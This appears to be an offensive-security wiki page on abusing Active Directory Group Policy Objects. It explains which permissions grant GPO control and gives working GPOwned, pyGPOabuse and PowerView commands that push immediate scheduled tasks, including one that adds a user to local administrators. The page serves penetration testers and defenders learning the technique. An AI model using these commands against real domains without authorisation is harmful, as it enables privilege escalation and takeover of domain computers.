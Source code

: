 # Group policies

## Theory

"Group Policy" is a management feature of Active Directory. It allows admins to manage computers and users. Group Policy Objetcs (GPOs) make up Group Policies. GPOs are associated to AD objects (sites, domains, organizational units (OUs)).

> Group Policies can include security options, registry keys, software installation, and scripts for startup and shutdown and domain members refresh group policy settings every 90 minutes by default (5 minutes for Domain Controllers). This means that Group Policy enforces configured settings on the targeted computer.
>
> [adsecurity.org](https://adsecurity.org/?p=2716)

In certain scenarios, an attacker can gain control over GPOs. Some ACEs can give that control (see [this BlackHat conf](https://www.blackhat.com/docs/us-17/wednesday/us-17-Robbins-An-ACE-Up-The-Sleeve-Designing-Active-Directory-DACL-Backdoors-wp.pdf), page 28):

* `WriteProperty` to the `GPC-File-Sys-Path` property of a GPO (specific GUID specified)
* `GenericAll`, `GenericWrite`, `WriteProperty` to any property (no GUID specified)
* `WriteDacl`, `WriteOwner`

To enumerate GPO's delegation & permissions, please refer to following page

{% content-ref url="../recon/objects-and-settings/group-policies.md" %}
[group-policies.md](../recon/objects-and-settings/group-policies.md)
{% endcontent-ref %}

## Practice

GPO-based attacks can be conducted with [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module), [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) (C#), or [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (python) and [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) for UNIX-like systems.

### Immediate Scheduled Task

An attacker can edit the GPO to add a scheduled task that runs instantly and removes itself after, every time Group Policy refreshes. The attacker can then gain access to all AD objects this GPO applies to.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, a new immediate scheduled task can be created with [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) or added to an existing GPO with [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (Python).

```bash
# GPOwned (buggy, not to use in production) - execute something (e.g. calc.exe)
GPOwned -u 'user' -p 'password' -d 'domain' -dc-ip 'domaincontroller' -gpoimmtask -name '{12345677-ABCD-9876-ABCD-123456789012}' -author 'DOMAIN\Administrator' -taskname 'Some name' -taskdescription 'Some description' -dstpath 'c:\windows\system32\calc.exe'

# pyGPOabuse, update an existing GPO - add a local admin
pygpoabuse 'domain'/'user':'password' -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
```
{% endtab %}

{% tab title="Windows" %}
From Windows, a new immediate scheduled task can be created with [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) module (Powershell). In the following example, a user is added to the local administrators group.

```bash
New-GPOImmediateTask -Verbose -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command cmd -CommandArguments "/c net localgroup administrators shutdown /add"
```

After a successful execution, the scheduled task can be removed with the following command.

```bash
New-GPOImmediateTask -Force -Remove -GPODisplayName 'GPODisplayName'
```
{% endtab %}
{% endtabs %}

### Manually adding a user to the local admin group

An attacker can also manually add a user to the local administrator group. This can be achieved with the Group Policy Management Editor.

**Step 1**: create the user

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Create > User name: <user>`

**Step 2**: add the user to the local admin group

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Update > Group name : <Administrators> > Members: Add: <user>`

### Force Group Policy update

Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: `gpupdate /force`.

### Other exploitation paths

In addition to the aforementioned exploitation paths, GPOs can be abused in other ways: leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

### Group Policy Preferences Password

Sometimes, you will find the built-in Administrator's password in a Group Policies.

{% content-ref url="../../redteam/credentials/dumping/os-credentials/windows-and-active-directory/group-policies-preferences.md" %}
[group-policies-preferences.md](../../redteam/credentials/dumping/os-credentials/windows-and-active-directory/group-policies-preferences.md)
{% endcontent-ref %}

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/" %}

{% embed url="https://adsecurity.org/?p=2716" %}

{% embed url="https://beta.hackndo.com/gpo-abuse-with-edit-settings/" %}

